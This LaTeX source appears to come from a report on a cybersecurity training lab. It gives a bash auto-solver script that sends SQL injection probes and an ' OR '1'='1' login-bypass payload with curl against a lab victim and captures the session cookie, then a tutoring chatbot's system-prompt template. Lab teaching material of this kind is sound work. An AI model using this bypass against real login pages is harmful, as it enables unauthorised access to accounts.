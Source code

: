 \documentclass[12pt,a4paper]{report}
\begin{document}
\begin{lstlisting}[language=bash, caption={Auto-Solver Script for SQL Injection Lab}]
#!/bin/bash
# solver_sqli_login.sh - Auto-solver script for SQL Injection Lab
# Executed inside attacker container after all hints consumed

TARGET_URL="http://victim_${user_id}/login"

echo "[*] CyberArcade Auto-Solver: SQL Injection Lab"
echo "[*] Target: $TARGET_URL"
echo ""
echo "[Step 1] Testing basic SQL injection with single quote..."
curl -s -X POST $TARGET_URL \
  -d "username='&password=test" | grep -i "error"

echo ""
echo "[Step 2] Attempting authentication bypass..."
curl -s -X POST $TARGET_URL \
  -d "username=' OR '1'='1' -- &password=anything" \
  -c cookies.txt -L | grep -i "welcome|dashboard|logged"

echo ""
echo "[Step 3] Confirming successful bypass..."
if [ -f cookies.txt ]; then
    echo "[+] Authentication bypassed successfully!"
    echo "[+] Session cookie captured."
fi
\end{lstlisting}

\subsection{AI Chatbot Configuration}

\begin{lstlisting}[language=Python, caption={Chatbot System Prompt Template}]
# Chatbot system prompt template
SYSTEM_PROMPT_TEMPLATE = """
You are a cybersecurity learning assistant for CyberArcade.
Your role is to help students understand cybersecurity concepts
during hands-on lab exercises.

STRICT RULES:
- Do NOT reveal specific flags, passwords, or file paths
- Do NOT provide direct command sequences that solve the lab
- Do NOT confirm whether a student's guess is correct
- ALWAYS encourage the student to try independently first
- Reference the current lab context in your explanations

Current Lab Context:
- Lab Name: {lab_name}
- Current Task: {task_description}
- Kill Chain Phase: {kill_chain_phase}
- Hints Used: {hints_used} of {total_hints}
- Auto-Solver Available: {auto_solver_available}

Provide conceptual explanations, relevant tool documentation
references, and methodology guidance appropriate to the
student's current hint usage level.
"""
\end{lstlisting}
\end{document}
